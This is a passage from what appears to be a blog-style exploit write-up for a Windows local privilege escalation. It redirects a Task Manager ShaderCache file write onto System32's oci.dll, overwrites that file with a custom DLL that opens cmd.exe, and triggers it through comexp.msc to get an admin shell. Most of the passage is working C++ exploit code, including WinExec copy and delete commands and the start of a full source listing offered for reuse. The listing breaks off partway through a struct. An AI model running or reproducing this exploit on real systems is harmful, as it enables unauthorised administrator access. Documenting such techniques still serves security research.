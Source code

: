 ```cpp
    std::wcerr << L"CreateDosDevice failed: " << GetLastError() << std::endl;
    return 1;
}
```

Lastly, we launch TaskManager again to create the dummy file that we plan to take advantage of. The file get's created, and the following takes place:

- The dummy file is written to `C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\4acae28c94cad7a0b8f78d11fefc67ef3b8cd41ecba3ad1a9da81873fb4c56f8` and then redirected to `c:\\windows\\system32\\oci.dll`
- I have my own custom made oci.dll DLL file we will use that I created.  It just simply opens cmd.exe
- We copy my custom oci.dll file and overwrite the one in System32 that we now have the ability to write to.
- ComExp.msc (Component Services) uses this DLL file so we just run comexp.msc and our payload gets loaded and the rest is history!

```cpp
 LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000);

 WinExec("cmd.exe /c copy /Y c:\\myfolder\\oci.dll c:\\windows\\system32\\oci.dll", 0); //overwrite dummy file with our file
 Sleep(3000);
 WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
 std::cout << "Launching admin shell!\n";
 LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\comexp.msc", L"", 3000);
 std::cout << "[+] Cleanup: removing oci.dll to prevent unwanted issues with other exe's that want to load it\n";
 Sleep(1000);
 WinExec("cmd.exe /c del /F /Q C:\\Windows\\System32\\oci.dll", 0);
 return 0;
```

**Full Source Code below (obviously change my username to your own when you use this, as well as the .ps1 script above):**

```cpp

#include <windows.h>
#include <iostream>
#include <filesystem>
#include <fstream>
#include <string>
#include <chrono>

#pragma comment(lib, "user32.lib")
#define REPARSE_DATA_BUFFER_HEADER_SIZE   FIELD_OFFSET(REPARSE_DATA_BUFFER, GenericReparseBuffer)

typedef struct _REPARSE_DATA_BUFFER {
    DWORD  ReparseTag;
    WORD   ReparseDataLength;
    WORD   Reserved;
    union {
        struct {
            WORD   SubstituteNameOffset;
            WORD   SubstituteNameLength;
            WORD   PrintNameOffset;
            WORD   PrintNameLength;
            DWORD  Flags;
            WCHAR  PathBuffer[1];
        } SymbolicLinkReparseBuffer;
        struct {
            WORD   SubstituteNameOffset;
            WORD   SubstituteNameLength;
            WORD   PrintNameOffset;
```
